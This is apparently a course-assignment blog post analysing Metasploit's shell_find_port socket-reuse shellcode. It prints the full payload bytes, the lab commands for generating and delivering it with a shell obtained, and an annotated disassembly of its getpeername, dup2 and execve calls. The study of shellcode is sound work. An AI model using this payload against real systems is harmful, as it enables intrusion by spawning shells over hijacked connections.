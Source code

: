 ```yaml
---
title:  "[SLAE 5] Metasploit Shell Find Port"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit shell_find_port shellcode analysis

This post is part of the 5th assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course and will analyse a Metasploit socket reuse shellcode: _`linux/x86/shell_find_port`_.  I've started by analysing the following payload: 
```bash
# msfpayload linux/x86/shell_find_port S
 
       Name: Linux Command Shell, Find Port Inline
     Module: payload/linux/x86/shell_find_port
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 169
       Rank: Normal
 
Provided by:
  Ramon de C Valle <rcvalle metasploit.com>
 
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CPORT  60957            no        The local client port
 
Description:
  Spawn a shell on an established connection
```

So this is actually a **_port reuse shellcode_**: it will search for an already established connection (based on the local client port specified in CPORT variable) and spawn a shell over that connection. Nice! There is a great description of how this payload functions at [BlackHatLibrary](http://www.blackhatlibrary.net/Shellcode/Socket-reuse).

To test this payload we'll need:
* A server that listens for connections and also executes payloads 
* A client that will establish a connection with the server from a fixed local port, then send our metasploit shellcode.

We'll use the [socket-loader.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-loader.c) and [socket-reuse-send.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-reuse-send.c) from BlackhatLibrary. We'll first compile and start the server: 

```bash
$ gcc -Wall -o socket-loader socket-loader.c 
$ ./socket-loader 7001
```
 
Then generate the metasploit payload and integrate it into the socket-reuse-send source file: 
```bash
# msfpayload linux/x86/shell_find_port CPORT=4444 C
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 * VERBOSE=false, CPORT=4444, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
 
# gcc -Wall -o socket-reuse-send socket-reuse-send.c 
```

The syntax for client is as follows:
```bash
./socket-reuse-send <server_ip> <server_port> <client_ip> <local_client_port>
```

So the next line will connect to the server listening on port 7001 and send the payload generated earlier from the local port 4444. The payload will then be executed by the server and we'll get a shell: 

```bash
# ./socket-reuse-send 192.168.56.1 7001 192.168.56.101 4444
 [*] Connecting to 192.168.56.1
 [*] Sending payload
whoami
liv
```

So the payload is working as expected, now onto analysis. We'll first try to use the __*`sctest`*__ binary from __*`libemu`*__: 
```
# msfpayload linux/x86/shell_find_port CPORT=4444 R > shellcode.bin
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
$ dot shellcode.dot -T png -o shellcode.png
```

[![](/assets/images/libemu-small.png)](/assets/images/libemu.png)

This way we can get a feeling about how this shellcode is functioning. As we'll see later, there is a final piece missing from the picture, because the sctest emulator is not leaving the loop (marked with red arrows). We'll use a disassembler to examine all the instructions: 
```bash
$ echo -ne "\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | ndisasm -b 32 -
```

First operation done by a server is, as seen in the picture, to execute _`getpeername`_ in a loop. This will try to obtain information about a peer connected to a specific file descriptor. 
```c
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10     ;  addrlen
00000007  54                push esp            ; *addrlen
00000008  57                push edi            ; *addr
00000009  53                push ebx            ; sockfd to search
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7          ; int call - SYS_GETPEERNAME (7)
getpeername_loop:
0000000E  FF01              inc dword [ecx]     ; increment fd to be checked
00000010  6A66              push byte +0x66     ; sys_socketcall
00000012  58                pop eax
00000013  CD80              int 0x80
```

The next part checks for a specific condition for any file descriptor found: it will verify the source port and if it's different than 4444 we'll increment the file descriptor and re-execute the loop: 
```c
; 115c(hex) = 4444 (dec)
; compare port
; struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
00000015  66817F02115C      cmp word [edi+0x2],0x5c11
; if not, jump to getpeername_loop
0000001B  75F1              jnz 0xe
```

In case a connection was found with the source port equal to 4444, it will execute in a loop 3 _`dup2`_ calls, and duplicate stdin, stdout and stderr to the found file descriptor: 
```c
0000001D  5B                pop ebx         ; old fd parameter;  
0000001E  6A02              push byte +0x2  ; 
00000020  59                pop ecx         ; new fd
dup2_loop:
00000021  B03F              mov al,0x3f     ; sys_dup2 syscall
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21        ; if not -1, jump to dup2_loop label
The final piece of the shellcode executes /bin/sh: 
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f   ; 'hs//'
0000002E  682F62696E        push dword 0x6e69622f   ; 'nib/'
00000033  89E3              mov ebx,esp     ; '/bin/sh\x00'
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp     ; address of the parameters array
00000039  99                cdq
0000003A  B00B              mov al,0xb      ; sys_execve
0000003C  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
